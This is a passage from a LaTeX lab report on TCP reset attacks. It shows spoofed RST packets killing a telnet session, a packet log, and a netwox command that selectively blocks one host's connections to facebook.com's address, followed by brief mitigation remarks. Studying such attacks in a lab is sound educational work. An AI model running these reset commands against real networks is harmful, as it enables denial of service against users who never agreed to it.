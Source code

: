 When Trying to connect the server from the client the connection is forcibly closed by the spoofed reset packets. The result at the client is shown in  and the TCP stream with the spoofed reset packets is .

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={TCP reset attack client view},
label={lst:tcp_client},
language=,
frame=single]
$ telnet 10.0.2.6
Trying 10.0.2.6...
Connected to 10.0.2.6.
Escape character is '^]'.
Connection closed by foreign host.
\end{lstlisting}
\end{minipage}

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={TCP reset attack packets},
label={lst:tcp_stream},
language=,
frame=single]
10.0.2.5 10.0.2.6 TCP 74 58626 > telnet [SYN] 
10.0.2.6 10.0.2.5 TCP 74 telnet > 58626 [SYN, ACK] 
10.0.2.5 10.0.2.6 TCP 66 58626 > telnet [ACK] 
10.0.2.5 10.0.2.6 TELNET 90	Telnet Data ...
10.0.2.6 10.0.2.5 TCP 66 telnet > 58626 [ACK] 
10.0.2.6 10.0.2.5 TCP 54 telnet > 58626 [RST, ACK] 
10.0.2.5 10.0.2.6 TCP 54 58626 > telnet [RST, ACK] 
10.0.2.6 10.0.2.5 TCP 54 telnet > 58626 [RST, ACK] 
10.0.2.6 10.0.2.5 TCP 54 telnet > 58626 [RST, ACK] 
\end{lstlisting}
\end{minipage}
To narrow down the attack to preventing the server from connection to \emph{facebook.com} we first lookup the IP associated with that domain name which for this network is 31.13.92.36. We then start the attack but filter it to target TCP connections from the server IP to 31.13.92.36. The command for the attack is in  and it does achieve preventing only the server to connect to the website but not the client as well as allowing the server to connect to other websites.
\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={TCP reset attack against server to facebook connections},
label={lst:facebook_attack},
language=,
frame=single]
$ netwox 78 -f "src host 10.0.2.6 and host 31.13.92.36"
\end{lstlisting}
\end{minipage}
While TCP reset packets are intended to be helpful when a connection is disrupted and a host receives unwanted TCP data this technique can also clearly be used for denial of service and firewall filtering. To get around this a simple solution would be to have both connection endpoints not comply with TCP standard and drop Reset packets. This would work on the condition that both endpoints are also well behaved and would send limited amount of data before a response that could be easily dropped when its unwanted. 

